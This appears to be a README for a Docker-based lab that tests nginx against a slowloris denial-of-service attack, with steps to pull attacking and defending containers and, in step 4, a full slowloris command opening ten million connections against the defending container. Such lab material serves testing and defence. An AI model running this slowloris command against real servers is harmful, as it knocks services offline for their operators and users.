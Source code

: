 # slowloris-test

## 1. Pull docker containers for test:
```
docker pull ekleziast/nginx_defense
```
```
docker pull ekleziast/nginx_attack
```
## 2. Run an attacking and defending containers:
```
docker run --name nginx_defense -d -p 80:80 ekleziast/nginx_defense
```
```
docker run --name nginx_attack -d -p 81:80 ekleziast/nginx_attack
```
## 3. Get IP address defending container:
```
docker inspect nginx_defense | grep IPAddress
```
## 4. Run next command to attack the container:
```
docker exec -ti nginx_attack slowloris {ip_address_nginx_defense_container} -s 10000000
```
